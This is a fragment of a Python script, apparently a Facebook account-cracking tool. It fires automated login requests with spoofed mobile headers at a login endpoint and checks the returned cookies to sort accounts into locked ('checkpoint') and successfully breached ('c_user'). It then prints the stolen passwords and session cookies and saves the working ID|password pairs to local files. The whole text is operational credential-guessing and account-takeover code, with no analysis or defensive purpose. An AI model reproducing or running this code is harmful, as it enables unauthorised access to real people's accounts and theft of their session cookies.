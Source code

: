 "sec-ch-prefers-color-scheme": "light",
"sec-ch-ua-platform": '"Android"',
"accept": "*/*",
"origin": "https://"+url,
"sec-fetch-site": "same-origin",
"sec-fetch-mode": "cors",
"sec-fetch-dest": "empty",
"referer": f"https://{url}/login.php?skip_api_login=1&api_key=3446862972255280&kid_directed_site=0&app_id=3446862972255280&signed_next=1&next=https%3A%2F%2F{url}%2Fv16.0%2Fdialog%2Foauth%3Fstate%3Dhttps%253A%252F%252Fsocial.yandex.com%252Fbroker2%252F11417b77ed1748fd8306de7641026ae1%252Fcallback%26redirect_uri%3Dhttps%253A%252F%252Fsocial.yandex.net%252Fbroker%252Fredirect%26response_type%3Dcode%26client_id%3D3446862972255280%26scope%3Demail%252Cuser_birthday%252Cuser_gender%252Cuser_link%26display%3Dtouch%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D213e9588-a6cd-4b2a-bd2b-69fd57b97361%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fsocial.yandex.net%2Fbroker%2Fredirect%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3Dhttps%253A%252F%252Fsocial.yandex.com%252Fbroker2%252F11417b77ed1748fd8306de7641026ae1%252Fcallback%23_%3D_&display=touch&locale=jv_ID&pl_dbl=0&refsrc=deprecated&_rdr",
"accept-encoding": "gzip, deflate, br",
"sec-websocket-version": str(rr(5,13)),
"accept-language": Aing_Orang_Cilacap}
			hehehe = ses.post(f'https://{url}/login/device-based/login/async/?api_key=3446862972255280&auth_token=f302da384cd8cc53013e453112408164&skip_api_login=1&signed_next=1&next=https%3A%2F%2F{url}%2Fv16.0%2Fdialog%2Foauth%3Fstate%3Dhttps%253A%252F%252Fsocial.yandex.com%252Fbroker2%252F11417b77ed1748fd8306de7641026ae1%252Fcallback%26redirect_uri%3Dhttps%253A%252F%252Fsocial.yandex.net%252Fbroker%252Fredirect%26response_type%3Dcode%26client_id%3D3446862972255280%26scope%3Demail%252Cuser_birthday%252Cuser_gender%252Cuser_link%26display%3Dtouch%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D213e9588-a6cd-4b2a-bd2b-69fd57b97361%26tp%3Dunspecified&refsrc=deprecated&app_id=3446862972255280&cancel=https%3A%2F%2Fsocial.yandex.net%2Fbroker%2Fredirect%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3Dhttps%253A%252F%252Fsocial.yandex.com%252Fbroker2%252F11417b77ed1748fd8306de7641026ae1%252Fcallback%23_%3D_&lwv=100', headers=head, data=date, allow_redirects=False)
			if "checkpoint" in ses.cookies.get_dict().keys():
				tree = Tree(f"{K2}CHECKPOINT") 
				tree.add(f"{K2}{idf}").add(f"{K2}{pw}") 
				tree.add(f"{K2}{ua}\n") 
				DedeLuci_Punya_Ayah_LuciverXploit(tree)
				open('LUCI_CP/'+luciver_cp,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				tree = Tree(f"{H2}SUKSES") 
				tree.add(f"{H2}{idf}").add(f"{H2}{pw}") 
				tree.add(f"{H2}{kuki}\n") 
				tree.add(f"{H2}{ua}\n") 
				DedeLuci_Punya_Ayah_LuciverXploit(tree)
				open('LUCI_OK/'+luciver_ok,'a').write(idf+'|'+pw+'\n')
				break
			else:continue
		except requests.exceptions.ConnectionError:time.sleep(31)
	loop+=1
